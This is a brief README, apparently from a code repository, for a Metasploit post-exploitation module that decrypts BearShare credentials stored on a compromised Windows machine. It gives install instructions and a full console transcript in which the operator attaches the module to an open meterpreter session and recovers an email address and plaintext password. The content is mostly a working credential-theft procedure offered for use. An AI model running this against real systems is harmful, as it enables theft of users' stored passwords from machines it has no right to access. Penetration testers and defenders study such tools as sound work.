 metasploit-bearshare-decrypt
=================

Version 1.0 - Feedback welcome <surefire@unallocatedspace.org>

bearshare_decrypt Metasploit module

To install, place in your ~/.msf4/modules/post/windows/gather folder, then:

```
meterpreter > background
[*] Backgrounding session 5...
msf  exploit(handler) > use post/windows/gather/bearshare_decrypt
msf  post(bearshare_decrypt) > set SESSION 5
SESSION => 5
msf  post(bearshare_decrypt) > show options

Module options (post/windows/gather/bearshare_decrypt):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  5                yes       The session to run this module on.

msf  post(bearshare_decrypt) > run

[+] Found oh_god_why@mailinator.com under SID S-1-5-21-484763869-436374069-1060284298-1003
[+] Username / Password : oh_god_why@mailinator.com / "password1"
[*] Post module execution completed
msf  post(bearshare_decrypt) > 


```
